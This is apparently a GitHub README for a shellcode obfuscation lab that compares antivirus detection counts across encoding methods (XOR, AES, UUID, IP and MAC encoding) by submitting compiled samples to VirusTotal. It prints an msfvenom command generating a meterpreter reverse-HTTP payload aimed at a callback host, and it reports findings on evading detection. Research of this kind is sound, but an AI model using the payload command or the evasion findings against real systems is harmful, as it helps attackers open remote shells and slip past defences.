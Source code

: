 # SOL ShellcodeObfuscationLab

Shellcode obfuscations laboratory based on RedSiege [Chromatophore](https://github.com/RedSiege/Chromatophore/). 


## Results

Tests have been performed with einer "random" - a alphanumeric 20 byte string. And "Metasploit" 
with output of `msfvenom -p windows/x64/meterpreter/reverse_http LHOST=192.168.190.134 LPORT=80 -f raw -o beacon.bin`. 
The "Metasploit" does not execute the shellcode, only decodes and prints it. 

Conclusion: 
* Encoding/Encryption doesnt matter
* More important is if a windows API is being used/imported (IAT in PE)
* Note that NO obfuscation metasploit outperforms AES encryption, base64 windows api, ip-, mac- and uuid-encoding.


| **What**           | **Library**           | **Includes**              | **Function / IAT**                 | **Random** | **Metasploit** |
| ------------------ | --------------------- | ------------------------- | ---------------------------------- | ---------- | -------------- |
| aes                | crypt32.lib, advapi32 | wincrypt.h                | Crypt\*                            | 5          | 6              |
| base64             | \-                    | \-                        | \-                                 | 3          | 3              |
| base64api          | crypt32.lib           | wincrypt.h                | CryptStringToBinaryA               | 5          | 6              |
| bin2ip             | Ntdll.lib             | ntstatus.h<br>Ip2string.h | RtlIpv4StringToAddressA            | 8          | 10             |
| bin2mac            | Ntdll.lib             | ntstatus.h<br>Ip2string.h | RtlEthernetStringToAddressA        | 8          | 18             |
| cesar              | \-                    | \-                        | \-                                 | 2          | 2              |
| jargon             | \-                    | \-                        | \-                                 | 3          | 2              |
| jigsaw             | \-                    | \-                        | \-                                 | 2          | 3              |
| offset             | \-                    | \-                        | \-                                 | 2          | 3              |
| rc4api             | \-                    | \-                        | GetProcAddress (SystemFunction033) | 2          | 2              |
| reverse_byte_order | \-                    | \-                        | \-                                 | 2          | 2              |
| reverse_hex_string | \-                    | \-                        | \-                                 | 2          | 2              |
| twoarray           | \-                    | \-                        | \-                                 | 2          | 3              |
| uuidapi            | rpcrt4.lib            | rpc.h                     | UuidFromStringA                    | 8          | 11             |
| xor_multibyte      | \-                    | \-                        | \-                                 | 1          | 2              |
| xor_reverse        | \-                    | \-                        | \-                                 | 2          | 3              |
| xor_single         | \-                    | \-                        | \-                                 | 1          | 3              |
| NO OBFUSCATION     | \-                    | \-                        | \-                                 | 2          | 3              |
## Usage

Use the `x64 native tools command prompt` from Visual Studio
so you have access to `ml.exe` and `Windows.h`. 

To compile all the source into `output/*.exe`:
```
> python.exe sol.py compile
```

To send it to VirusTotal

```
> set VT_API_KEY=123...
> python.exe sol.py 
```

Output is in `output/*.exe.json` and `output/scan_results.txt`. 


